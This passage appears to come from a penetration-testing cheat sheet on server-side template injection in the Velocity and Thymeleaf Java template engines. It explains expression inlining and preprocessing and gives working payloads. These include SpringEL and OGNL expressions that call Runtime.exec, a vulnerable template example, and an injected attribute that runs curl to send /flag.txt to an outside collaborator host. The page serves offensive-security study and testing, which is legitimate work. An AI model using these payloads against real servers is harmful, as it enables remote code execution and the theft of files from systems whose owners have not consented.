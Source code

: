 #foreach($i in [1..$out.available()])

$str.valueOf($chr.toChars($out.read()))

#end

**More information**

-   In Velocity section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)​
    

-   ​[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity)​
    

## 

Thymeleaf (Java)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf-java)

The typical test expression for SSTI is `${7*7}`. This expression works in Thymeleaf, too. If you want to achieve remote code execution, you can use one of the following test expressions:

-   SpringEL: `${T(java.lang.Runtime).getRuntime().exec('calc')}`
    

-   OGNL: `${#rt = @java.lang.Runtime@getRuntime(),#rt.exec("calc")}`
    

However, as we mentioned before, expressions only work in special Thymeleaf attributes. If it’s necessary to use an expression in a different location in the template, Thymeleaf supports _expression inlining_. To use this feature, you must put an expression within `[[...]]` or `[(...)]` (select one or the other depending on whether you need to escape special symbols). Therefore, a simple SSTI detection payload for Thymeleaf would be `[[${7*7}]]`.

Chances that the above detection payload would work are, however, very low. SSTI vulnerabilities usually happen when a template is dynamically generated in the code. Thymeleaf, by default, doesn’t allow such dynamically generated templates and all templates must be created earlier. Therefore, if a developer wants to create a template from a string _on the fly_, they would need to create their own TemplateResolver. This is possible but happens very rarely.

If we take a deeper look into the documentation of the Thymeleaf template engine, we will find an interesting feature called **_expression preprocessing_**. Expressions placed between double underscores (`__...__`) are preprocessed and the result of the preprocessing is used as part of the expression during regular processing. Here is an official example from Thymeleaf documentation:

#{selection.__${sel.code}__}

**Vulnerable example**

<a th:href="@{__${path}__}" th:title="${title}">

<a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('curl -d @/flag.txt burpcollab.com')}" th:title='pepito'>

​

http://localhost:8082/(7*7)

http://localhost:8082/(${T(java.lang.Runtime).getRuntime().exec('calc')})
